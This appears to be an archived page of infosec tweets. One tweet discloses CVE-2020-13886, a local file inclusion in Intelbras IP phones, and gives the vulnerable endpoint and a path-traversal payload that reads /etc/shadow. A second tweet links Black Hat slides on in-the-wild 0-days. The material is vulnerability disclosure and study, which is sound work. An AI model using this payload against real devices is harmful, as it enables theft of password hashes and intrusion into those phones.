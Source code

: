 
# wugeej
**https://twitter.com/wugeej/status/1291184302672158720 _at 2020-08-06 01:28:21_**
<blockquote>
CVE-2020-13886 0day INTELBRAS TELEFONE IP TIP200/200 LITE &amp; TIP 300 - Local File Include

[ Proof Of Concept ]
URL parameter -&gt;http://HOST/cgi-bin/cgiServer.exx?page=

LFI payload -&gt; ../../../../etc/shadow

https://t.co/fQEOI2WZsF https://t.co/ixlAj26tAM
</blockquote>

* https://github.com/lucxssouza/CVE-2020-13886

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+ext_tw_video_thumb+1291184230123225088+pu+img+mUIZDKZEb_EvlhfO.jpg" alt="http://pbs.twimg.com/ext_tw_video_thumb/1291184230123225088/pu/img/mUIZDKZEb_EvlhfO.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>101</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1291124059917266944 _at 2020-08-05 21:28:58_**
<blockquote>
Here are the slides from my @BlackHatEvents  talk "Reversing the Root: Identifying the Exploited Vulnerability in 0-days Used In-The-Wild".
